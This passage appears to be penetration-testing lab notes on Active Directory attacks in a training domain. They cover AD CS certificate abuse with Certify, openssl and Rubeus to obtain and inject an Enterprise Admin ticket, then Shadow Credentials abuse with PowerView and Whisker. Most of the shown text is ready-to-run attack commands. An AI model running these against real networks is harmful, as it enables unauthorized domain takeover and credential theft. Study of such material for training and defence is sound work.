 Request a certificate for EA!
```powershell
C:\AD\Tools\Certify.exe request /ca:Techcorp-DC.techcorp.local\TECHCORP-DC-CA /template:ForAdminsofPrivilegedAccessWorkstations /altname:Administrator
```

Convert from cert.pem to pfx:
```powershell
C:\AD\Tools\openssl\openssl.exe pkcs12 -in C:\AD\Tools\cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out C:\AD\Tools\EA.pfx
```

Request EA TGT and inject it:
```powershell
C:\AD\Tools\Rubeus.exe asktgt /user:techcorp.local\Administrator /dc:techcorp-dc.techcorp.local /certificate:C:\AD\Tools\EA.pfx /password:SecretPass@123 /nowrap /ptt
```



# Shadow Credentials

Users and Computers have **msDS-KeyCredentialLink** attribute that contains the raw public keys of certificate that can be used as an alternate credential.

- This attribute is used when we configure Windows Hello for Business (WHfB)

> By default, Key Admins and Enterprise Key Admins have rights to modify the **msDS-KeyCredentialLink attribute**.

- User to User (U2U) Service Ticket can be requested to decrypt the encrypted **NTLM_SUPPLEMENTAL_CREDENTIAL** entity from Privilege Attribute Certificate (PAC) and extract NTLM hash.

Pre-requisites to abuse Shadow Credentials:
```
- AD CS (Key Trust if AD CS is not present)
- Support for PKINIT and at least one DC with Windows Server 2016 or above.
- Permissions (GenericWrite/GenericAll) to modify the msDS-KeyCredentialLink attribute of the target object.
```

## Abusing User Object

Enumerate the permissions:
```powershell
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "StudentUsers"}
```

Add the Shadow Credential:
```powershell
Whisker.exe add /target:supportXuser
```

Using PowerView, see if the Shadow Credential is added.
```powershell
Get-DomainUser -Identity supportXuser
```
